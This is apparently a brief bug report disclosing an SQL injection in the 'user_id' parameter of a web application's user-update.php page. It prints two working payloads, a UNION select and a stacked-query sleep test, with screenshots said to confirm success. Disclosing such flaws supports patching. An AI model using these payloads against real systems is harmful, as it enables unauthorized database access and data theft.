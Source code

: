 BUG_Author:waibi8Bu

Vulnerability File: /reviewer/system/system/admins/manage/users/user-update.php

GET parameter 'user_id' exists SQL injection vulnerability

Payload1:user_id=2' union all select null,null,null,null,concat(0x353637,0x454647),null,null,null,null,null-- -

union query success

![image](https://github.com/rick13795/bug_report/blob/main/sql1.png)

Payload2:user_id=2';select sleep(5)-- -

Stacked queries succeeded, server response time is 5 seconds

![image](https://github.com/rick13795/bug_report/blob/main/sql2.png)
